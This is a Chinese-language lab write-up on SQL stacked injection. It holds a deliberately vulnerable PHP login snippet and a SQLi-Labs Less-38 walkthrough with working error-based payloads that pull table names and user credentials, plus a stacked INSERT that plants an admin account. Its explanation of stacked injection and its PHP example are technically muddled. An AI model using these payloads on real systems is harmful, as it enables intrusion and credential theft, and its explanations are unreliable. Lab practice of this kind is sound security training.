









# 一、堆叠注入概述
1. SQL堆叠注入是一种利用多个注入点的技术，可以在一个注入点中注入SQL代码，然后在另一个注入点中执行该代码。
2. 在PHP中，堆叠注入通常发生在使用mysqli函数库时，因为mysqli函数库允许在SQL查询中使用多个语句。攻击者可以在其中一个输入中注入SQL代码，然后在另一个输入中执行该代码。
# 二、代码示例
1. 使用PHP编写一个存在堆叠注入的示例
```php
// 这是一个存在堆叠注入的PHP代码示例
// 堆叠注入是一种利用多个注入点的技术，可以在一个注入点中注入SQL代码，然后在另一个注入点中执行该代码
// 在此示例中，我们使用两个输入字段来模拟两个注入点
// 获取用户输入
$username = $_POST['username'];
$password = $_POST['password'];
$servername = 'localhost';
$dbname = 'test';
//连接数据库
$conn = mysqli_connect($servername, $username, $password, $dbname);
// 构造SQL查询语句
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
// 执行SQL查询
$result = mysqli_query($conn,$sql);
// 处理查询结果
if ($result) {
	// 查询成功
	while ($row = mysqli_fetch_assoc($result)) {
		// 处理每一行数据
	}
} else {
	// 查询失败
	echo "查询失败";
}
// 关闭数据库连接
mysqli_close($conn);
```
2. 上述代码使用了两个用户输入来构造SQL查询语句，攻击者可以在其中一个输入中注入SQL代码，然后在另一个输入中执行该代码。
# 三、SQLi-Labs Less38靶场示例
1. 测试报错及字段
	- 单引号报错，order by 3回显正常
	
	- order by 4报错，确定字段为4
	
2. 直接拼接select报错
	
3. 尝试堆叠注入，成功回显数据库版本与数据库名，如下，数据库名为security
```SQL
http://localhost:8081/Less-38/?id=1' and updatexml(1,concat(0x7e,version(),0x7e,database()),1) --+
```

4. 获取数据库security中的表名，如下，security库中有emails、referers、uagents、users四个表
```SQL
?id=1' and updatexml(1,concat(0x7e,(select (group_concat(table_name)) from information_schema.tables where table_schema=database()),0x7e),1) --+
```

5. 获取users表中字段名，如下，有id、username、password三个字段
```SQL
?id=1' and updatexml(1,concat(0x7e,(select (group_concat(column_name)) from information_schema.columns where table_name='users',0x7e),1) --+
```

6. 获取字段username、password的值，如下，成功获取到用户名和密码
```SQL
?id=1' and updatexml(1,concat(0x7e,(select (group_concat(username,0x3a,password,0x7e)) from users),0x7e),1) --+
```

7. 我们还可以尝试写入一个用户名和密码
```SQL
?id=1';insert into users value(66,'admin','123456') --+
```

8. 访问id=66，发现admin/123456被成功写入数据库
